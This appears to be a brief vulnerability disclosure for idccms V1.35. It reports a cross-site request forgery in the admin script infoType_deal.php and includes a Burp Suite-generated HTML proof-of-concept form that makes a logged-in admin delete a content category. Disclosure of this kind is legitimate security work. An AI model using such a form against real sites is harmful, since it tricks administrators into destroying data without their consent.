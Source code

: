 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/infoType_deal.php?mudi=del&dataType=news&dataTypeCN=%E6%A0%8F%E7%9B%AE&theme=cs1&dataID=67

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/infoType_deal.php?mudi=del&dataType=news&dataTypeCN=%E6%A0%8F%E7%9B%AE&theme=cs1&dataID=67" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
